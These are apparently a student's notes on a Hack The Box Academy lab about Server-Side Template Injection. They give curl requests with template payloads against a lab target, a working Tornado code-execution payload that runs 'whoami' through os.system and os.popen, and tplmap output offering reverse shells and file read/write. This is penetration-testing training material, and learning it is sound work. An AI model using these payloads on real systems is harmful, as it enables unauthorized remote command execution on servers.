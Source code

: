 Suppose we are tasked with pentesting yet another internet-facing application. Our focus will be on identifying if the application is vulnerable to Server-Side Template Injection.

Navigate to the end of this section and click on `Click here to spawn the target system!`, then use the provided Pwnbox or a local VM to follow along. If you browse the target, you should come across the application below.

![image](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

If you inspect the application's traffic using Firefox's Web Developer Tools (`[Ctrl]`+`[Shift]`+`[I]`), you will notice that user input is submitted inside a parameter called `email` and through a POST request to `http://<TARGET IP>:<PORT>/jointheteam`

Let's submit mathematical expressions in curly brackets to the input field, such as the ones mentioned in the `SSTI Identification` section, starting with `${7*7}`, as PortSwigger's diagram suggests.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It doesn't look like the application evaluated the submitted expression. Let's try `{{7*7}}`

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the submitted expression this time. Let's continue, as PortSwigger's diagram suggests, to identify the underlying template engine.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the latest expression we submitted. So, according to the diagram, we should be dealing with a Twig or Jinja2 template engine, right?

Unfortunately, this is not the case! If we submit any Twig or Jinja2-specific payload, the application returns `500: Internal Server Error`. Find some examples of this behavior below.

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

```shell
p3ta@htb[/htb]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

The payloads we utilized (and more) can be found on [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and [HackTricks- SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

It should be straightforward now that no methodology is bulletproof. We could compile a list of template engine-specific payloads from the abovementioned resources and fuzz the application until we conclude on the template engine being used.

Eventually, when submitting [Tornado](https://www.tornadoweb.org/en/stable/guide/templates.html)\-specific payloads, we will come across the below.

```shell
p3ta@htb[/htb]$ curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It seems we finally got it! Tornado is being utilized on the backend.

As already mentioned in previous sections, `tplmap` can be used to automate both the template engine identification and exploitation process.

#### tplmap.py

```shell
p3ta@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shellRun shell on the target
    --os-cmdExecute shell commands
    --bind-shell PORTConnect to a shell bind to a target port
    --reverse-shell HOST PORTSend a shell back to the attacker's port
    --upload LOCAL REMOTEUpload files to the server
    --download REMOTE LOCALDownload remote files
```

Now, proceed to this section's exercise and complete the objective either by crafting the payload yourself or through a shell obtained with the help of `tplmap`.

# Assessment


![[Pasted image 20231219120740.png]]

![[Pasted image 20231219121330.png]]
```
{% import os %}{{ os.popen("whoami").read() }}
```
![[Pasted image 20231219121313.png]]

![[Pasted image 20231219121447.png]]